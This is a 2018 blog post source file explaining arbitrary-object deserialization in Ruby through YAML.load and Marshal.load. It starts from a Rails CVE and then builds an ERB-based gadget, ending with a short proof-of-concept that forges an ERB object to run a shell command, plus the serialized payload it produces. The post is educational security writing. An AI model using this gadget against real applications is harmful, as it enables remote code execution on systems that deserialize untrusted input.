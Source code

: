 ```yaml
---
layout: post
title:  "Arbitrary data deserialization in Ruby"
date:   2018-04-08 13:44:11 +0800
categories: jekyll update
---
```

Deserializing untrusted data is usually dangerous and can lead to serious
consequences like remote code execution. Remember not to deserialize user-input
data unless you really know what you are doing.

Ruby provides several ways of serializing/deserializing an object in ruby-core
and ruby-stdlib. The most commonly used are `Marshal` and `YAML` (`json` also
has the ability of processing objects in ruby but this will be another story)

The story starts from [CVE-2013-0156](https://www.cvedetails.com/cve/cve-2013-0156)
in Ruby on Rails, where `YAML.load` could be called with arbitrary data when the
framework processes an HTTP request. There're already some great
[write-ups](https://github.com/charliesome/charlie.bz/blob/master/posts/rails-3.2.10-remote-code-execution.md)
on this issue so I'm not going to repeat the analysis of the payload.

Generally speaking, the exploits are based on a similar way:

1. Find a call of `YAML.load`(or `Marshal.load`) where the first parameter
could be controlled.
2. Find a class with a "dangerous method" which will be used to execute the
real payload afterwards (the trojan).
3. Forge the object of our target class with required properties set as expected
to complete the execution chain.
4. `dump` (`Marshal` or `YAML`) the above object to bytes and send it to the
target.

The descriptions above might be obscure for who didn't look into the issue
carefully. I'll take `ERB` as an example since it exactly fullfills the
requirements of a "deserialization trojan".

{% highlight ruby %}
/usr/lib/ruby/2.5.0/erb.rb
  # Generate results and print them. (see ERB#result)
  def run(b=new_toplevel)
    print self.result(b)
  end

  #
  # Executes the generated ERB code to produce a completed template, returning
  # the results of that code.  (See ERB::new for details on how this process
  # can be affected by _safe_level_.)
  #
  # _b_ accepts a Binding object which is used to set the context of
  # code evaluation.
  #
  def result(b=new_toplevel)
    if @safe_level
      proc {
        $SAFE = @safe_level
        eval(@src, b, (@filename || '(erb)'), @lineno)
      }.call
    else
      eval(@src, b, (@filename || '(erb)'), @lineno)
    end
  end
{% endhighlight %}

A call to `ERB#result` or `ERB#run` will eventually lead to a `eval` where
the first parameter is the `@src` property. This is totally safe while the most
common use case of `ERB` is the load a template from local filesystem and render
it with a set of provided bindings.

But what will happen if we look into the following example:

{% highlight ruby %}

class Response
    attr_reader :result # let's say, for example, the wrapped response code
    ...
    ...
end

res = YAML.load(some_user_input)
puts "The result is #{res.result}" # To print the result

{% endhighlight %}

The `some_user_input` here actually expects the dump of an object of class Response.
But thanks to Ruby's duck typing, a dump of an `ERB` object is also eligible here.
Finally, the `ERB#result` will be called at the `puts` line instead of
`Response#result`. Therefore, in this case, forging the trojan is considerably easy.

{% highlight ruby %}

o = ERB.allocate
o.instance_variable_set :@src, "puts `id`"
o.instance_variable_set :@lineno, 1026
YAML.dump(o)

=> "--- !ruby/object:ERB\nsrc: puts `id`\nlineno: 1026\n"
{% endhighlight %}

## Conclusion
The above example is simplified as much as possible to make it clear enough to
understand. Cases in the real world are probably much more complicated to exploit
like [this one](https://justi.cz/security/2017/10/07/rubygems-org-rce.html).

Forging the invocation chain in the payload is usually the most tricky part.
During this procedure, some methods like `method_missing`, `send` or `public_send`
may worth a closer look.

Due to some historical reasons, the public resources about arbitrary data
deserialization are often in the scope of Ruby on Rails instead of Ruby the
language and its standard libraries. As Ruby on Rails and its dependencies
actually provide many gadgets for completing the invocation chain. However it
should be noticed that this issue also exists in common ruby projects. Although
the payload may look greatly different to those were used in RoR.
